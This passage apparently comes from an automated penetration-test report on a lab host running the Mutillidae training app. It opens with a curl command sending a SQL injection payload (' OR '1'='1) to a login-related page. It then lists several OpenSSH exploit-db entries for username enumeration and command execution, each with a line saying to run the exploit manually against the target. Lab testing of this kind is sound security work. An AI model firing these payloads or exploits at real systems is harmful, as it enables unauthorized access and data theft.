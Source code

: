     ```bash
curl -X POST 'http://192.168.1.113/mutillidae/user-info.php' --data 'username=%27+OR+%271%27%3D%271'
    ```

### SSH (Port 22)

- Type: potential_exploit_finding
  - Details: Reconnaissance identified a potential exploit: OpenSSH 2.3 < 7.7 - Username Enumeration (PoC) (linux/remote/45210.py)
  - PoC:
    
    ```bash
Review the module/exploit and execute it manually against the target: 192.168.1.113:22
    ```
- Type: potential_exploit_finding
  - Details: Reconnaissance identified a potential exploit: OpenSSH 2.3 < 7.7 - Username Enumeration (linux/remote/45233.py)
  - PoC:
    
    ```bash
Review the module/exploit and execute it manually against the target: 192.168.1.113:22
    ```
- Type: potential_exploit_finding
  - Details: Reconnaissance identified a potential exploit: OpenSSH < 6.6 SFTP (x64) - Command Execution (linux_x86-64/remote/45000.c)
  - PoC:
    
    ```bash
Review the module/exploit and execute it manually against the target: 192.168.1.113:22
    ```
- Type: potential_exploit_finding
  - Details: Reconnaissance identified a potential exploit: OpenSSH < 6.6 SFTP - Command Execution (linux/remote/45001.py)
  - PoC:
    
    ```bash
Review the module/exploit and execute it manually against the target: 192.168.1.113:22
    ```
- Type: potential_exploit_finding
  - Details: Reconnaissance identified a potential exploit: OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain So (linux/local/40962.txt)
  - PoC:
    
    ```bash
Review the module/exploit and execute it manually against the target: 192.168.1.113:22
    ```
- Type: potential_exploit_finding
  - Details: Reconnaissance identified a potential exploit: OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading (linux/remote/40963.txt)
  - PoC:
    
    ```bash
Review the module/exploit and execute it manually against the target: 192.168.1.113:22
    ```
- Type: potential_exploit_finding
  - Details: Reconnaissance identified a potential exploit: OpenSSH < 7.7 - User Enumeration (2) (linux/remote/45939.py)
  - PoC:
    